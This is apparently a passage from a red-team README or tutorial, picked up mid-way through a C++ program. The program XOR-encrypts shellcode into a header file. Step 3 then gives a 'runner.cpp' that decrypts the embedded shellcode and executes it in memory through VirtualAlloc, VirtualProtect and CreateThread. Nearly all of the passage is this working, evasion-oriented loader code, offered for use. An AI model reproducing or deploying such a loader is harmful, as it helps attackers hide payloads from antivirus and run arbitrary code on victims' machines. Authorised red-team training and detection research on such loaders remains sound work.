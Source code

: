 	int main() {
	    std::vector<unsigned char> encrypted(shellcode, shellcode + shellcode_size);
	    xor_encrypt(encrypted, key);
	
	    std::ofstream output("encrypted_shellcode.h");
	    output << "#pragma once\n";
	    output << "unsigned char encrypted_shellcode[] = {";
	    for (size_t i = 0; i < encrypted.size(); i++) {
	        output << "0x" << std::hex << (int)encrypted[i];
	        if (i != encrypted.size() - 1) output << ", ";
	    }
	    output << "};\n";
	    output << "const size_t shellcode_size = " << encrypted.size() << ";\n";
	    std::cout << "[+] Encrypted shellcode saved to encrypted_shellcode.h\n";
	    return 0;
	}
	
	```
3. Run the `runner.cpp` to run the encrypted payload:
   ```cpp
	#include <windows.h>
	#include <iostream>
	#include "encrypted_shellcode.h" // Include generated header
	
	const std::string key = "redteamexercises";
	
	// Decryption logic
	void xor_decrypt(unsigned char* data, size_t size, const std::string& key) {
	    for (size_t i = 0; i < size; i++) {
	        data[i] ^= key[i % key.size()];
	    }
	}
	
	int main() {
	    std::cout << "[+] Starting shellcode decryption and execution...\n";
	
	    xor_decrypt(encrypted_shellcode, shellcode_size, key);
	
	    void* exec_mem = VirtualAlloc(nullptr, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	    if (!exec_mem) {
	        std::cerr << "[-] Memory allocation failed\n";
	        return 1;
	    }
	
	    memcpy(exec_mem, encrypted_shellcode, shellcode_size);
	
	    DWORD oldProtect;
	    if (!VirtualProtect(exec_mem, shellcode_size, PAGE_EXECUTE_READ, &oldProtect)) {
	        std::cerr << "[-] Failed to change memory permissions\n";
	        return 1;
	    }
	
	    HANDLE hThread = CreateThread(nullptr, 0, (LPTHREAD_START_ROUTINE)exec_mem, nullptr, 0, nullptr);
	    if (!hThread) {
	        std::cerr << "[-] Thread creation failed\n";
	        return 1;
	    }
	
	    WaitForSingleObject(hThread, INFINITE);
	    return 0;
	}

```